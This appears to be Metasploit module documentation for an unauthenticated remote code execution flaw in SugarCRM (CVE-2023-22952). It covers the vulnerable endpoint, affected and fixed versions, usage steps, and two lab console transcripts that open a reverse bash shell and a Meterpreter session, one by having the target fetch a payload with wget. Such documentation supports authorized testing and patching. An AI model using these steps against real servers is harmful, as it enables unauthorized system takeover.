 ## Vulnerable Application

This module exploits a Remote Code Execution (RCE) vulnerability that has been identified in the SugarCRM application.
The vulnerability in sugarCRM could allows an unauthenticated attacker to upload a malicious `PNG` file with embedded PHP code
to the `/cache/images/` directory on the web server using the vulnerable endpoint `/index.php?module=EmailTemplates&action=AttachFiles`.
Once uploaded to the server, depending on server configuration, the attacker may be able to execute that code over the web
via http or https gaining access to the system.

The RCE is unauthenticated because of a missing authentication check in the `loadUser()` method in `include/MVC/SugarApplication.php`.
After a failed login, the session does not get destroyed and hence the attacker can continue to send valid requests to the application.
See this [AttackerKB Article](https://attackerkb.com/topics/E486ui94II/cve-2023-22952) for more details.

Any user privileges can exploit this vulnerability and it results in access to the underlying operating system with the same privileges
under which the web services run (typically `www-data`).
SugarCRM 11.0 Professional, Enterprise, Ultimate, Sell and Serve versions `11.0.4` and below are affected. Fixed in release `11.0.5`
SugarCRM 12.0 Enterprise, Sell and Serve versions `12.0.1` and below are affected. Fixed in release `12.0.2`.

Installing a vulnerable test bed requires a Linux machine with the vulnerable SugarCRM software loaded.
This module has been tested against a SugarCRM installation with the specifications listed below:

* SugarCRM Enterprise Edition
* Version: `11.0.4`
* Build: `300`
* Linux OS: Debian 8.6
`
## Verification Steps

1. `use exploit/linux/http/sugarcrm_webshell_cve_2023_22952`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
### WEBSHELL
You can use this option to set the filename and extension of the webshell.
This is handy if you want to test the webshell upload and execution with different file extensions (.phtml, .php7, .inc)
to bypass any security settings on the Web and PHP server.

## Scenarios

### SugarCRM 11.0.4 Enterprise Build 300 on Debian 8.6 - bash reverse shell

```
msf6 > use exploit/linux/http/sugarcrm_webshell_cve_2023_22952
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > options

Module options (exploit/linux/http/sugarcrm_webshell_cve_2023_22952):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                       or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


View the full module info with the info, or info -d command.

msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > set lhost 192.168.100.254
lhost => 192.168.100.254
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > set lport 4444
lport => 4444
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > set target 0
target => 0
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > exploit

[*] Started reverse TCP handler on 192.168.100.254:4444
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted RPXrYGLCvGjL.phar
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:52584) at 2023-01-19 19:14:56 +0000

whoami
www-data
exit
```

### SugarCRM 11.0.4 Enterprise Build 300 on Debian 8.6 - Meterpreter session

```
msf6 > use exploit/linux/http/sugarcrm_webshell_cve_2023_22952
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > options

Module options (exploit/linux/http/sugarcrm_webshell_cve_2023_22952):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                       or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


View the full module info with the info, or info -d command.

msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > set lhost 192.168.100.254
lhost => 192.168.100.254
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > set lport 4444
lport => 4444
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > set target 1
target => 1
msf6 exploit(linux/http/sugarcrm_webshell_cve_2023_22952) > exploit

[*] Started reverse TCP handler on 192.168.100.254:4444
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.100.254:8080/aLYDt2
[*] Client 127.0.0.1 (Wget/1.16 (linux-gnu)) requested /aLYDt2
[*] Sending payload to 127.0.0.1 (Wget/1.16 (linux-gnu))
[*] Sending stage (3045348 bytes) to 127.0.0.1
[+] Deleted ZxGTSVGsOUZs.phtml
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:43076) at 2023-01-19 19:16:07 +0000
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : sugarcrm
OS           : Debian 8.6 (Linux 2.6.32)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter > exit
```

## Limitations
No `check` method.
